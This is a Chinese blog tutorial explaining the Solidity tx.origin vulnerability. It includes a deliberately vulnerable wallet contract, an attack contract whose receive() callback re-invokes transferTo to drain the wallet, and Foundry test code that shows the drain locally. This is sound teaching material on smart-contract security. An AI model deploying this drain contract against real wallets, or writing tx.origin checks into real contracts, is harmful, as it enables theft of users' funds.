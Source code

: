## 前言

昨天发了一篇，[tx.origin、msg.sender有什么不一样 | 登链社区 | 深入浅出区块链技术 (learnblockchain.cn)](https://learnblockchain.cn/article/3568)，被认为太水了，所以把tx.origin 攻击的代码实现一遍，让大家有个清晰的认识。

其实前面的**不一样**是今天可以这么干的基础。


实现的过程有参考：[Unboxing tx.origin. Rune Token case (adrianhetman.com)](https://www.adrianhetman.com/unboxing-tx-origin/)

## 原理

从被攻击的代码讲起：

```
contract TxUserWallet is DSTest {
    address owner;

    constructor() {
        owner = msg.sender;
        //emit log_named_address("owner", owner);
    }

    function transferTo(address payable dest, uint256 amount) public payable {
        emit log_named_address("tx.origin", tx.origin);
        emit log_named_address("owner", owner);
        require(tx.origin == owner); //** 重点 **
        dest.call{value: amount}("");
    }
}
```

这个合约transferTo函数，通过检查tx.origin来确定是不是合约拥有人在操作合约。
普通情况都是没问题的。tx.origin都是合约拥有人，可是就怕有精心构造的攻击者。
做到这些，还是要熟悉solidity的代码，上次我们讲重入 [重入攻击代码实现 | 登链社区 | 深入浅出区块链技术 (learnblockchain.cn)](https://learnblockchain.cn/article/3514)，讲了`fallback` 函数，这次我们用到`receive`函数，这个函数会在合约收到币的时候被调用。

所以，我们需要构造一种情况，`TxUserWallet ` 合约调用transferTo 给攻击合约转账，攻击合约在`receive`函数 再次调用transferTo，这个时候，tx.origin 就还是原来的账号操作人，代码写得好，你就可以转空`TxUserWallet ` 合约里的钱。

## 攻击代码

下面我们上攻击合约代码：

```
contract TxAttackWallet is DSTest {
    address payable owner;

    constructor() {
        owner = payable(msg.sender);
    }

    fallback() external payable {
        emit log_named_address("fallback", msg.sender);
    }

    receive() external payable {
        TxUserWallet(msg.sender).transferTo(
            payable(this),
            msg.sender.balance - 1 ether
        );
    }
}
```

## 构造测试用例

```
function setUp() public {
        startHoax(address(0x9BEF5148fD530244a14830f4984f2B76BCa0dC58), 8 ether);
        alice = new TxUserWallet();  //被攻击对象
        hoax(address(alice), 5 ether); //放5个币
        bob = new TxAttackWallet();  //攻击合约
        hoax(address(bob), 5 ether);  //放5个币
        emit log_named_uint("alice", address(alice).balance);
        emit log_named_address("alice", address(alice));
        emit log_named_address("bob", address(bob));
    }
```

```
function testExample() public payable {
        //startHoax(address(0x9BEF5148fD530244a14830f4984f2B76BCa0dC58));
        alice.transferTo(payable(bob), 1 ether); //被攻击者给攻击合约转1个币
        emit log_named_uint("alice", address(alice).balance);
        emit log_named_uint("bob", address(bob).balance);
        emit log_string("testok");
    }
```

结果如下：
![16451845821.png](https://img.learnblockchain.cn/attachments/2022/02/3ix6dgTn620f865175253.png)

还有关键性一步，在foundry.toml里设置，

`tx_origin = '0x9BEF5148fD530244a14830f4984f2B76BCa0dC58'`

这是部署合约的操作人。

